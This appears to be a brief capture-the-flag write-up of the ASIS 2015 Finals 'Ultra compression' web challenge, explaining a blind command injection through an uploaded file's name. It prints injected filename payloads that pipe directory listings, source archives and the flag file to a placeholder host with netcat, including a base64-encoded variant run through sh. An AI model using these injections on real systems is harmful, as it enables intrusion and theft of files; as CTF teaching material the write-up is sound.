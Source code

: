 ```yaml
---
layout: post
title: "ASIS 2015 Finals: Ultra compression"
modified: 2015-10-15
tags: asis asis2015finals web
---
```


*This challenge was solved by and the write up was written by teammates, nguyen and akg*

Through testing to know it's a blind cmd injection in filename of a file upload.

Set a host listen to a port and inject a cmd, ex: ```filename.txt; ls |nc ip port```

To copy the source, ```find .. -iname '*gz'|xargs cat|nc ip port```, analyze it, we have expl:

{% highlight text %}
~  echo "cat /home/asis/flag.txt | nc ip port" | base64
<base64string>
~ a.txt| echo <base64string> | base64 -d | sh
{% endhighlight %}

{% highlight text %}
ASIS{72a126946e40f67a04d926dd4786ff15}
{% endhighlight %}